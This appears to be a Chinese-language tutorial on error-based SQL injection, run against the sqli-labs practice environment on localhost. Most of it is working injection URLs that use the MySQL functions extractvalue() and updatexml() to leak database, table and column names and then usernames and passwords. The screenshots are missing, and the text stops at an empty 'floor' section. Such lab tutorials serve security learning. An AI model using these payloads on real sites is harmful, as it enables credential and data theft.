### 报错注入

**报错注入是一种****利用网站的报错信息来获取数据库信息**的注入方式。

**该方法的原理是在错误信息中执行SQL语句，利用数据库的某些机制制造错误条件，使得查询结果能够出现在错误信息中。**

**在MySQL中，执行一个正常的SQL语句，不会返回查询的内容，但是会打印一条报错语句，告诉你有一个SQL语法错误。利用该特性，构造SQL语句，让其返回数据库的相关信息。**

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1,2,databse()--+
```












#### **利用extractValue()报错注入**

**使用extractvalue查询xml里面的内容**

```
select extractvalue(doc,'/book/author/surname')from xml;
```

```
select extractvalue(doc,concat(0x7e,(select database())))from xml;
```





** 0x7e     代表~             也可使用  '~' 代替**

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select database()))),3 --+
//查询库名 
```


```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3 --+
//查询该库内所有的表名
```



```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))),3 --+
```



```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,substring((select group_concat(username,'~',password) from users),1,30))),3 --+
//报错注入一次只能显示30个字符，所以使用substring函数继续显示。
```



#### **updatexml函数**






**database()				数据库库名
group_concat()			把查询到的结果合并到一行显示
concat()					合并字符
优先执行括号()里的命令**

```
http://localhost/sqli_labs/Less-6/?id=1" and 1=updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),3)--+
//查看该库内的表名
```





```
http://localhost/sqli_labs/Less-6/?id=1" and 1=updatexml(1,concat('~',(select substr(group_concat(username,password),1,28) from users)),3)--+
//查询列内的内容     substr与substring效果一致
```


#### floor报错
